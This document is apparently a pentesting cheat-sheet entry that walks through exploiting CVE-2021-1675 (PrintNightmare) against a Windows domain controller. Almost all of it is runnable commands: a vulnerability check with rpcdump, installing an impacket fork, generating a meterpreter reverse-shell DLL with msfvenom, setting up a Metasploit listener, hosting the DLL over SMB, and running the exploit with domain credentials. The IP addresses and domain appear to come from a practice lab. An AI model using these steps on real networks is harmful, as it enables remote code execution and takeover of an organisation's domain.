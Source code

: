 -- -
#CVE-2021-1675 abusing the print spooler and a valid ad account to take over domain. We will be using cube0x0 rce found [here](https://github.com/cube0x0/CVE-2021-1675) This is closer to a kernel level exploit that can destabilize the DC/domain/network, so use sparingly. 
#### Check for vuln
```bash
rpcdump.py @<dc ip> | egrep "MS-RPRN|MS-PAR"

# Looking for the following output
# Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
# Protocol: [MS-RPRN]: Print System Remote Protocol
```
#### Installation
```bash
# uninstall current impacket insstall, which I wouldn't recommend
pip3 uninstall impacket

# rather use a venv
python3 -m venv .venv
source .venv/bin/activate

# Then continue from here
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```
#### Exploit
```bash
# make your payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=9001 -f dll > shell.dll 

# Setup listener
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp 
set LHOST 10.0.2.15
set LPORT 9001
run

# host malicious dll, in the same dir as shell.dll:
impacket-smbserver share 'pwd' -smb2support

# run exploit
python CVE-2021-1675.py <domain>/<user>:<password>@<dc ip> '\\<attack ip>\smb\shell.dll'

python CVE-2021-1675.py MARVEL.local/fcastle:Password1@10.0.2.16 '\\10.0.2.15\smb\shell.dll'
```